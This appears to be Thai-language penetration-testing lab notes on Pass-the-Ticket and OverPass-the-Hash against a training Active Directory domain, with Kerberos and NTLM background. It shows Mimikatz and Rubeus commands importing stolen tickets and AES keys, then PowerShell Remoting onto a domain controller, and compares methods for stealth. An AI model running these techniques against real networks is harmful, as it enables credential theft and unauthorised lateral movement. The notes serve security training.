Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

```

**ทางเลือก:** ใช้ `misc::cmd` เพื่อเปิด cmd window ใหม่พร้อม imported ticket

---

# Pass The Ticket กับ PowerShell Remoting (Windows)

## ภาพรวม PowerShell Remoting

### คุณสมบัติพื้นฐาน
- อนุญาตให้รัน scripts หรือ commands บนเครื่อง remote
- Administrators ใช้จัดการเครื่อง remote ในเครือข่าย
- สร้าง HTTP และ HTTPS listeners

### Ports ที่ใช้
| Protocol | Port | คำอธิบาย |
|----------|------|----------|
| HTTP | TCP/5985 | Standard PowerShell Remoting |
| HTTPS | TCP/5986 | Encrypted PowerShell Remoting |

### สิทธิ์ที่ต้องการ

ต้องมี**อย่างน้อย 1** ใน 3 เงื่อนไข:
1. **Administrative permissions** บนเครื่อง remote
2. **สมาชิกของ Remote Management Users group**
3. **Explicit PowerShell Remoting permissions** ใน session configuration

---

## สถานการณ์ที่น่าสนใจ

### Use Case: Non-Admin User ใน Remote Management Users

```
สมมติเจอ user account ที่:
❌ ไม่มีสิทธิ์ admin บนเครื่อง remote
✅ เป็นสมาชิก Remote Management Users group

→ ยังสามารถใช้ PowerShell Remoting ได้!
```

---

## วิธีที่ 1: Mimikatz + PowerShell Remoting

### กระบวนการทำงาน



### ขั้นตอนที่ 1: Import Ticket ด้วย Mimikatz

```cmd
C:\tools> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!
```

**สิ่งที่เกิดขึ้น:**
- Mimikatz import TGT เข้าสู่ **current CMD session**
- Ticket จะอยู่ใน **LSASS process** ของ session นั้น
- Ticket พร้อมใช้งานสำหรับ Kerberos authentication

### ขั้นตอนที่ 2: เปิด PowerShell จาก CMD เดิม

```cmd
c:\tools> powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> 
```

**⚠️ สำคัญมาก:**
- ต้องเปิด PowerShell จาก **CMD session เดิม** ที่ import ticket ไว้
- ถ้าเปิด PowerShell window ใหม่ จะไม่มี ticket

### ขั้นตอนที่ 3: เชื่อมต่อด้วย PowerShell Remoting

```powershell
PS C:\tools> Enter-PSSession -ComputerName DC01

[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john

[DC01]: PS C:\Users\john\Documents> hostname
DC01

[DC01]: PS C:\Users\john\Documents> 
```

**สิ่งที่เกิดขึ้น:**
1. PowerShell ใช้ Kerberos ticket ที่ import ไว้
2. เชื่อมต่อกับ DC01 ผ่าน WinRM (port 5985)
3. ได้ remote shell บน DC01
4. รันคำสั่งในนาม user `john`



---

## วิธีที่ 2: Rubeus + Sacrificial Process

### แนวคิดของ Sacrificial Process

**ปัญหาที่แก้:**
```
เมื่อ import ticket เข้า current session:
- อาจลบ TGTs เดิมที่มีอยู่
- ทำให้ current user's authentication มีปัญหา
- อาจทำให้ระบบตรวจพบความผิดปกติ
```

**วิธีแก้:**
```
สร้าง "sacrificial process" (กระบวนการเซ็นเทียม)
- Logon Type 9 (NewCredentials)
- เทียบเท่า runas /netonly
- ไม่กระทบ TGTs ของ current session
```

### ขั้นตอนที่ 1: สร้าง Sacrificial Process

```cmd
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

**Parameters อธิบาย:**

| Parameter | ค่า | คำอธิบาย |
|-----------|-----|----------|
| `createnetonly` | - | Module สร้าง process แบบ netonly |
| `/program:` | `cmd.exe` | โปรแกรมที่จะรัน |
| `/show` | - | แสดง process (ปกติจะ hidden) |

**Output:**

```cmd
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3

[*] Action: Create process (/netonly)

[*] Using random username and password.

[*] Showing process : True
[*] Username        : JMI8CL7C        ← Random fake username
[*] Domain          : DTCDV6VL        ← Random fake domain
[*] Password        : MRWI6XGI        ← Random fake password
[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1556
[+] LUID            : 0xe07648        ← Logon Session ID
```

**สิ่งที่เกิดขึ้น:**
1. สร้าง cmd.exe process ใหม่
2. Logon Type = **9** (NewCredentials/runas /netonly)
3. ใช้ credentials ปลอม (random)
4. Ticket จะถูก import เข้า session นี้เท่านั้น
5. ไม่กระทบ current user's session

### ความหมายของ Logon Type 9

| Logon Type | ชื่อ | คำอธิบาย |
|------------|------|----------|
| 2 | Interactive | Login ปกติที่เครื่อง |
| 3 | Network | เข้าถึง network resource |
| 9 | NewCredentials | Clone current token + ใช้ credentials ใหม่สำหรับ network |
| 10 | RemoteInteractive | Remote Desktop |

**Logon Type 9:**
- Local access: ใช้ current user's token
- Network access: ใช้ credentials ที่ระบุ
- เหมือน `runas /netonly`

### ขั้นตอนที่ 2: ขอ TGT และ Import (จาก Sacrificial Process)

**จาก cmd.exe window ที่เพิ่งเปิดขึ้นมา:**

```cmd
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

**Output:**

```cmd
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\john'
[*] Using domain controller: 10.129.203.120:88
[+] TGT request successful!
[*] Base64(ticket.kirbi):
      [Base64 ticket data...]
      
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/inlanefreight.htb
  ServiceRealm             :  INLANEFREIGHT.HTB
  UserName                 :  john
  UserRealm                :  INLANEFREIGHT.HTB
  StartTime                :  7/18/2022 5:44:50 AM
  EndTime                  :  7/18/2022 3:44:50 PM
  RenewTill                :  7/25/2022 5:44:50 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  5VdAaevnpxx/f9rXsDDLfK6tH+4qQ3f1GlOB1ClBWh0=
  ASREP (key)              :  9279BCBD40DB957A0ED0D3856B2E67F9BB58E6DC7FC07207D0763CE2713F11DC
```

### ขั้นตอนที่ 3: เชื่อมต่อด้วย PowerShell Remoting

```cmd
c:\tools> powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```

---

## เปรียบเทียบทั้ง 2 วิธี

| หัวข้อ | Mimikatz | Rubeus Sacrificial |
|--------|----------|-------------------|
| **ขั้นตอน** | 3 steps | 3 steps |
| **ความซับซ้อน** | ง่ายกว่า | ซับซ้อนกว่านิดหน่อย |
| **สิทธิ์** | ต้อง Admin (สำหรับ privilege::debug) | ไม่ต้อง Admin |
| **กระทบ Session** | อาจลบ TGTs เดิม | ไม่กระทบ TGTs เดิม |
| **Stealth** | น้อยกว่า | มากกว่า |
| **Input** | Ticket file (.kirbi) | Hash/Key |
| **ติดต่อ KDC** | ไม่ (ใช้ ticket เดิม) | ใช่ (ขอ TGT ใหม่) |

---

## ขั้นตอนโดยละเอียด: Rubeus Method

### ทำไมต้องใช้ Sacrificial Process?

**ปัญหาถ้าไม่ใช้:**
```cmd
# ถ้า import ticket เข้า current session
C:\tools> Rubeus.exe asktgt /user:john /aes256:hash /ptt

# TGTs เดิมของ current user อาจถูกลบ
# → Current user's network access มีปัญหา
# → ระบบตรวจพบความผิดปกติ
```

**วิธีแก้ด้วย Sacrificial Process:**
```cmd
# สร้าง session ใหม่ที่แยกออกมา
Rubeus.exe createnetonly /program:"cmd.exe" /show

# Import ticket เข้า session ใหม่นี้
# → ไม่กระทบ current user's TGTs
# → ปลอดภัยกว่า
```

### การทำงานของ createnetonly

```
┌─────────────────────────────────────┐
│   Original Session (LUID: 0x3e7)   │
│   User: attacker                    │
│   TGTs: attacker's tickets          │
│   ◄─── ไม่ถูกกระทบ                  │
└─────────────────────────────────────┘

┌─────────────────────────────────────┐
│  Sacrificial Session (LUID: 0xe07648)│
│   Process: cmd.exe (PID 1556)       │
│   Fake creds: JMI8CL7C/MRWI6XGI     │
│   TGTs: john's ticket ◄─── import ที่นี่│
└─────────────────────────────────────┘
```


## สรุป

### Mimikatz Method
**ข้อดี:**
- ง่าย straightforward
- ใช้ ticket file ที่มีอยู่

**ข้อเสีย:**
- ต้อง admin rights
- อาจลบ TGTs เดิม

### Rubeus Sacrificial Method
**ข้อดี:**
- ไม่ต้อง admin rights
- ไม่กระทบ current session
- Stealth กว่า

**ข้อเสีย:**
- ซับซ้อนกว่า
- ต้องติดต่อ KDC


---

## สรุปเทคนิคทั้งหมด

| เทคนิค | เครื่องมือ | สิทธิ์ที่ต้องการ | ผลลัพธ์ |
|--------|-----------|-----------------|---------|
| Export Tickets | Mimikatz | Admin | ไฟล์ .kirbi |
| Export Tickets | Rubeus | Admin | Base64 string |
| Pass the Key | Mimikatz | Admin | cmd.exe window ใหม่ |
| Pass the Key | Rubeus | ไม่ต้องการ Admin | TGT ใน Base64 |
| Import Ticket | Rubeus | - | Import เข้า session |
| Import Ticket | Mimikatz | - | Import เข้า session |
| PS Remoting | Mimikatz + PSSession | Remote Mgmt rights | Remote shell |
| PS Remoting | Rubeus + createnetonly | Remote Mgmt rights | Remote shell |

---

## ข้อควรระวัง

1. **การ Detection:**
   - การใช้ RC4 แทน AES อาจถูก detect
   - Encryption downgrade เป็นสัญญาณผิดปกติ

2. **สิทธิ์:**
   - Export tickets ต้องเป็น local admin
   - Import tickets ไม่จำเป็นต้องเป็น admin

3. **Mimikatz version:**
   - เวอร์ชัน 2.2.0 20220919 อาจมีปัญหากับ Windows 10 บางเวอร์ชัน

4. **PowerShell Remoting:**
   - ต้องเป็นสมาชิก Remote Management Users หรือมีสิทธิ์ admin
   - ใช้ได้กับ users ที่ไม่มีสิทธิ์ admin แต่อยู่ใน Remote Management Users group

---

### 1. การ Export/Harvest Tickets

| การกระทำ | Local Admin | Domain Admin |
|----------|-------------|--------------|
| **Export tickets จาก LSASS** | ✅ ทำได้ (บนเครื่องที่เป็น admin) | ✅ ทำได้ (ทุกเครื่องใน domain) |
| **Mimikatz sekurlsa::tickets** | ✅ ได้ tickets ของ users ที่ login อยู่ | ✅ ได้ tickets ทุกเครื่อง |
| **Rubeus dump** | ✅ ได้ tickets บนเครื่องนั้น | ✅ ได้ tickets ทุกเครื่อง |
| **ขอบเขต** | เฉพาะเครื่องที่มีสิทธิ์ | ทุกเครื่องใน domain |

### 2. การ Import Tickets (Pass the Ticket)

| การกระทำ | Local Admin | Domain Admin |
|----------|-------------|--------------|
| **Import ticket เข้า session** | ✅ ทำได้ | ✅ ทำได้ |
| **Rubeus ptt** | ✅ ไม่ต้อง admin | ✅ ไม่ต้อง admin |
| **Mimikatz kerberos::ptt** | ✅ ทำได้ | ✅ ทำได้ |

### 3. OverPass the Hash (Pass the Key)

| การกระทำ | Local Admin | Domain Admin |
|----------|-------------|--------------|
| **ดึง hash/keys ด้วย Mimikatz** | ✅ ได้แค่เครื่องนั้น | ✅ ได้ทุกเครื่อง |
| **sekurlsa::ekeys** | ⚠️ ต้อง admin | ⚠️ ต้อง admin |
| **Rubeus asktgt** | ✅ ไม่ต้อง admin | ✅ ไม่ต้อง admin |


### 4. PowerShell Remoting

| การกระทำ | Local Admin | Domain Admin |
|----------|-------------|--------------|
| **เชื่อมต่อไปเครื่องที่เป็น local admin** | ✅ ได้ | ✅ ได้ |
| **เชื่อมต่อไปเครื่องอื่นใน domain** | ❌ ไม่ได้ (เว้นแต่มีสิทธิ์) | ✅ ได้ทุกเครื่อง |
| **ใช้ ticket ของ domain user** | ✅ ได้ (ถ้า user มีสิทธิ์) | ✅ ได้ |


# เพิ่มเติม
NTLM ใช้อัลกอริทึมดังนี้:

**สำหรับ Hash Password:**
- ใช้ **MD4** ในการ hash password
- Process: Password → Unicode → MD4 → NTLM hash (16 bytes/128 bits)
- ตัวอย่าง: `Admin123` → `209c6174da490caeb422f3fa5a7ae634`

**สำหรับ Challenge-Response:**

**NTLMv1:**
- ใช้ **DES** (Data Encryption Standard)
- แบ่ง NTLM hash เป็น 3 ส่วนๆ ละ 7 bytes
- เข้ารหัส challenge ด้วย DES แต่ละส่วน
- มีความเสี่ยงสูงเพราะ DES อ่อนแอ

**NTLMv2:**
- ใช้ **HMAC-MD5** (Hash-based Message Authentication Code)
- รวม timestamp, client challenge, และ server challenge
- ปลอดภัยกว่า NTLMv1 แต่ยัง crack ได้ถ้า password อ่อน

**ปัญหาด้านความปลอดภัย:**
- **MD4** ถือว่าเก่ามากและมีช่องโหว่
- ไม่มี salt ทำให้เสี่ยงต่อ rainbow table attacks
- Hash เดียวกันจะได้ผลลัพธ์เดียวกันเสมอ

**เปรียบเทียบกับ Kerberos:**
- Kerberos ใช้ AES encryption (ปลอดภัยกว่ามาก)
- Kerberos มี ticket-based authentication
- Microsoft จึงแนะนำให้ migrate ไปใช้ Kerberos

**ความแตกต่างระหว่าง NTLM hash กับ MD4:**

1. **Input Encoding:**
   - NTLM: บังคับต้อง convert เป็น UTF-16LE ก่อน
   - MD4: รับ input แบบ raw bytes

2. **Use Case:**
   - NTLM: ใช้เฉพาะใน Windows authentication
   - MD4: general-purpose hashing (แต่เลิกใช้แล้วเพราะไม่ปลอดภัย)

3. **การ Hash:**
   ```bash
   # MD4 ของ "Admin123" (ASCII)
   echo -n "Admin123" | md4sum
   # ≠ NTLM hash
   
   # NTLM hash ของ "Admin123" (Unicode)
   echo -n "Admin123" | iconv -t UTF-16LE | md4sum
   # = NTLM hash
   ```

**สรุป:** NTLM hash = MD4(UTF-16LE encoded password) ไม่ใช่แค่ MD4 ของ password ธรรมดา


## NTLM Hash มี 2 บทบาท:

### 1. **เป็น Hash ของ Password** (Stored)
- Windows เก็บ NTLM hash ไว้ใน SAM database
- คำนวณจาก: `MD4(UTF-16LE(password))`
- Hash นี้ถูกเก็บไว้แทน password จริง

### 2. **ใช้เป็น Key ในการเข้ารหัส Challenge** (Authentication)
```
Server → ส่ง Challenge (random 8 bytes) → Client

Client:
1. เอา NTLM hash ที่มีอยู่
2. ใช้ NTLM hash นี้เป็น KEY
3. เข้ารหัส Challenge ด้วย DES (NTLMv1) หรือ HMAC-MD5 (NTLMv2)
4. ส่ง Response กลับไป → Server

Server:
- เอา NTLM hash ของ user นั้นจาก database
- เข้ารหัส Challenge เดียวกันด้วย hash นั้น
- เทียบว่า Response ตรงกันไหม
```

**สรุป:**
- **NTLM hash** = Key ที่ใช้เข้ารหัส challenge (ถูกต้อง!)
- **MD4** = อัลกอริทึมที่ใช้สร้าง NTLM hash จาก password

**นี่คือเหตุผลที่ Pass-the-Hash ใช้งานได้** - เพราะไม่ต้องรู้ password จริง แค่มี NTLM hash ก็ authenticate ได้แล้ว!


# ขอ TGT (Ticket Granting Ticket)

## กระบวนการ AS-REQ/AS-REP

### 1. **AS-REQ** (Authentication Service Request)

```
Client → Domain Controller (KDC)

ส่งข้อมูล:
- Username
- Domain name
- Timestamp (encrypted ด้วย user's password hash)
- Pre-authentication data
```

**สิ่งที่เกิดขึ้น:**
```
Client side:
1. User login ด้วย password
2. Password → Hash (NT hash หรือ AES key)
3. เข้ารหัส timestamp ด้วย hash นี้
4. ส่งไปยัง KDC พร้อม username
```

### 2. **AS-REP** (Authentication Service Reply)

```
KDC → Client

ตรวจสอบ:
1. KDC ดึง user's password hash จาก AD
2. ถอดรหัส timestamp ที่ส่งมา
3. ตรวจสอบว่าถูกต้องและไม่หมดอายุ
4. ถ้าถูกต้อง → สร้าง TGT

ส่งกลับ:
- TGT (encrypted ด้วย krbtgt hash) ← Client ถอดไม่ได้!
- Session Key (encrypted ด้วย user's hash) ← Client ถอดได้
```

## โครงสร้าง TGT:

```
TGT ประกอบด้วย:
- Username
- Domain name
- Session Key (เดียวกับที่ส่งให้ client)
- Expiration time (default 10 ชั่วโมง)
- User's groups/SIDs
- เข้ารหัสทั้งหมดด้วย krbtgt account hash
```


## Pre-Authentication คืออะไร?

**Kerberos Pre-Authentication:**
- Client ต้องพิสูจน์ว่ารู้รหัสผ่าน **ก่อน** KDC จะให้ TGT
- Encrypted timestamp = หลักฐาน
- ป้องกันไม่ให้ attacker ขอ TGT มาแล้ว crack offline

**ถ้าปิด Pre-Auth:**
- Attacker ขอ TGT ได้เลยโดยไม่ต้องพิสูจน์อะไร
- KDC จะส่ง AS-REP กลับมา (มี encrypted data ด้วย user's hash)
- เอาไป crack offline ได้ = **AS-REP Roasting**


## Flow สมบูรณ์:

```
1. User Login
   ↓
2. Client ขอ TGT จาก KDC (AS-REQ)
   ├─ Username
   ├─ Encrypted Timestamp
   └─ Domain
   ↓
3. KDC ตรวจสอบ
   ├─ Username ถูกต้อง?
   ├─ Timestamp ถูกต้อง?
   └─ ไม่หมดอายุ?
   ↓
4. KDC ส่ง TGT + Session Key (AS-REP)
   ├─ TGT (encrypted ด้วย krbtgt)
   └─ Session Key (encrypted ด้วย user's hash)
   ↓
5. Client เก็บ TGT ไว้ใน memory
   ↓
6. ใช้ TGT ขอ Service Tickets ต่อไป (TGS-REQ)
```

**สรุป:** การขอ TGT คือขั้นตอนแรกของ Kerberos authentication โดย client ต้องพิสูจน์ตัวตนด้วย password hash แล้วจะได้ TGT มาเก็บไว้ใช้ขอ Service Tickets ในภายหลัง


